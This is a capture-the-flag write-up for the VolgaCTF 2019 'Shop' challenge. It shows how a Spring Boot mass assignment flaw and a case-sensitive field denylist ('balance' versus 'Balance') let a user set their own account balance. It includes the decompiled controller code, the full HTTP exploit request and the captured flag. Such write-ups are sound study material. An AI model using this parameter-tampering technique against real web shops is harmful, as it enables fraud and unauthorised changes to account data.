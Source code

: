 Shop
====

Task description
----------------

> Our famous shop is back!
>
> http://shop.q.2019.volgactf.ru/

Solution
--------

TL;DR: Mass assignment vulnerability through ModelAttribute in Spring Boot.

This task involves a shop system where you can register accounts, sign in and
buy stuff like t-shirts, cake, and a flag. New users get 100 monetary units
as a gift afters registration. Unfortunately, the flag costs 1337 monetary
units, so we can only but t-shirts and cake.

Looking at the `/robots.txt` we see one entry `Disallow: /shop-1.0.0.war`. We
can download this war file, which contains the shop application. War files
are essentially ZIP files which contain Java bytecode and the corresponding
assets required to run the applications. After extracting the war file, you get
an directory structure, where the relevant parts are the following:

    └── WEB-INF
        ├── classes
        │   ├── applicationContext.xml
        │   ├── application.properties
        │   ├── data.sql
        │   ├── persistence.xml
        │   ├── ru
        │   │   └── volgactf
        │   │       └── shop
        │   │           ├── controllers
        │   │           │   └── ShopController.class
        │   │           ├── dao
        │   │           │   ├── ProductDao.class
        │   │           │   └── UserDao.class
        │   │           ├── filters
        │   │           │   └── AuthFilter.class
        │   │           ├── models
        │   │           │   ├── Message.class
        │   │           │   ├── Product.class
        │   │           │   └── User.class
        │   │           └── ShopApplication.class


These class files contain the Java bytecode, which is not readable source code.
However, you can still open them in IntelliJ IDEA, which ships with an
decompiler that will decompile the files before opening them. What you get is
perfectly readable Java source code. The shop application uses the Spring Boot
framework. Looking at the `ShopController.class`, we find a method named `buy`,
which handles the buying procedure of the shop.

    @Controller
    public class ShopController {
        // [...]
        @RequestMapping({"/buy"})
        public String buy(@RequestParam Integer productId, @ModelAttribute("user") User user, RedirectAttributes redir, HttpServletRequest request) {
            HttpSession session = request.getSession();
            if (session.getAttribute("user_id") == null) {
                return "redirect:index";
            } else {
                Product product = this.productDao.geProduct(productId);
                if (product != null) {
                    if (product.getPrice() <= user.getBalance()) {
                        user.setBalance(user.getBalance() - product.getPrice());
                        user.getCartItems().add(product);
                        this.userDao.update(user);
                        redir.addFlashAttribute("message", "Successful purchase");
                        return "redirect:profile";
                    }

                    redir.addFlashAttribute("message", "Not enough money");
                } else {
                    redir.addFlashAttribute("message", "Product not found");
                }

                return "redirect:index";
            }
        }

This method is annotated with an ModelAttribute annotation, referring to the
user variable, which is of type User. We can find the User class in
`User.class`. The ModelAttribute annotation allows us to set any attribute of
this user model via HTTP form data, resulting in an mass assignment
vulnerability.  The user model has several attributes, including the balance
of the user. All we have to do is to send an HTTP requests which buys the
flag and include `balance=1337` as query parameter. However, this did not
work. Turns out, that there is some code preventing us from using `balance` as
query parameter:

    @Controller
    public class ShopController {
        // [...]
        @InitBinder
        public void initBinder(WebDataBinder binder) {
            binder.setDisallowedFields(new String[]{"balance"});
        }

Thankfully, we can bypass the check by using `Balance` instead of `balance`,
which will also set the `balance` attribute of the user model. So register an
account and send the following HTTP request (with your session id) to buy the
flag:

    POST /buy?Balance=20000 HTTP/1.1
    Host: shop.q.2019.volgactf.ru
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11
    Connection: close
    Cookie: JSESSIONID=21E66A003A3E444672C08D0D26D7F719

    productId=4

You will find the flag in your profile: VolgaCTF{c6bc0c68f0d0dac189aa9031f8607dba}.
